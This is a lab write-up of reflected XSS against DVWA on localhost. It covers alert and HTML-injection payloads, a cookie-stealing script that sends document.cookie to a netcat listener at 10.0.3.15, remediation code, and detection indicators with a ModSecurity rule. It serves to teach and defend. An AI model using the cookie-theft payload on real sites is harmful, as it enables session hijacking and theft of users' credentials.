


# Attack 2 -- Cross-Site Scripting (XSS)

**DVWA Module:** XSS (Reflected)  
**Security Level:** Low  
**URL:** `http://localhost/dvwa/vulnerabilities/xss_r/`  
**MITRE ATT&CK:** T1059.007 -- Command and Scripting Interpreter: JavaScript  
**CVSS v3.1 Score:** 7.1 (High)

---

## Objective

Inject malicious client-side scripts into the web application's response to demonstrate reflected XSS, HTML injection, and the potential for session cookie theft, demonstrating the full client-side attack chain.

---

## Lab Environment



---

## Step 1 -- Confirm Script Execution

Navigate to DVWA --> XSS (Reflected).

Enter in the name field:
```html
<script>alert('XSS')</script>
```

| Evidence | Screenshot |
|----------|-----------|
| Script injection attempt | [xss-script-input.png](../screenshots/xss-script-input.png) |

The page reflects the input back without encoding. The browser shows `Hello` rendered in the response -- the `<script>` tag was injected but Firefox's modern XSS auditor suppressed the alert popup. The URL confirms the payload was submitted:

```
localhost/dvwa/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>
```

This confirms the application outputs user input directly into the HTML without sanitisation or encoding.

### Vulnerable Code Pattern
```php
// UNSAFE: Direct output without encoding
echo '<pre>Hello ' . $_GET['name'] . '</pre>';
```

---

## Step 2 -- HTML Injection

Enter:
```html
<h1>Hacked</h1>
```

| Evidence | Screenshot |
|----------|-----------|
| HTML rendered in page | [xss-html-inject.png](../screenshots/xss-html-inject.png) |

The page renders:
```
Hello
Hacked
```

The `<h1>` tag is rendered as a full heading -- confirming the server is returning raw HTML from user input. The URL shows:

```
localhost/dvwa/vulnerabilities/xss_r/?name=<h1>Hacked<%2Fh1>#
```

---

## Step 3 -- Cookie Stealing (Proof of Concept)

Start a netcat listener on Kali to catch inbound requests:

```bash
nc -lvnp 8888
```

Submit the following payload as the name:
```javascript
<script>
document.location='http://10.0.3.15:8888/?c='+document.cookie
</script>
```

When a victim visits the link containing this payload, their browser executes the script and sends their session cookie to the attacker's listener. The cookie value captured would be:

```
PHPSESSID=ece4b6db2b4e60fd720865818834f6b5; security=low
```

With this cookie an attacker can hijack the authenticated session without needing the user's password.

### Attack Chain Visualisation



---

## Remediation

### Secure Code (Output Encoding)
```php
// SAFE: Encode special characters before output
echo '<pre>Hello ' . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8') . '</pre>';
```

### Content Security Policy (CSP)
```http
Content-Security-Policy: default-src 'self'; script-src 'none'
```

### Additional Defences
- Use HTTPOnly and Secure flags on session cookies
- Validate input length and character sets before processing
- Implement X-XSS-Protection and X-Content-Type-Options headers

---

## Finding Summary

| Field | Detail |
|-------|--------|
| **Vulnerability** | Reflected Cross-Site Scripting (XSS) |
| **Location** | `name` GET parameter on `/vulnerabilities/xss_r/` |
| **Root Cause** | No output encoding -- raw user input reflected in HTML |
| **Impact** | Session hijacking; credential theft; malicious script execution |
| **Payloads Used** | `<script>alert('XSS')</script>`, `<h1>Hacked</h1>`, cookie-stealing redirect |
| **CVSS v3.1** | 7.1 (High) |
| **MITRE ATT&CK** | T1059.007 -- Command and Scripting Interpreter: JavaScript |

---

## Detection

See [detections/xss-detection.yml](../detections/xss-detection.yml) for the Sigma rule.

### SIEM/Monitoring Indicators
- HTTP parameters containing `<script>`, `document.cookie`, `document.location`, `javascript:`
- Encoded angle brackets (`%3C`, `%3E`) in GET parameters
- Outbound requests from client to unusual internal IPs after page loads
- User sessions authenticated from two different IPs in a short window (session hijack indicator)
- Referrer logs showing suspicious `name=` query strings containing `<` or `>`

### WAF Rules
```
# Example ModSecurity rule
SecRule REQUEST_ARGS "@rx (?i)<script|javascript:|on\w+\s*=|document\.cookie|document\.location"
    "id:1001,deny,status:403,msg:'XSS Attempt Detected'"
```
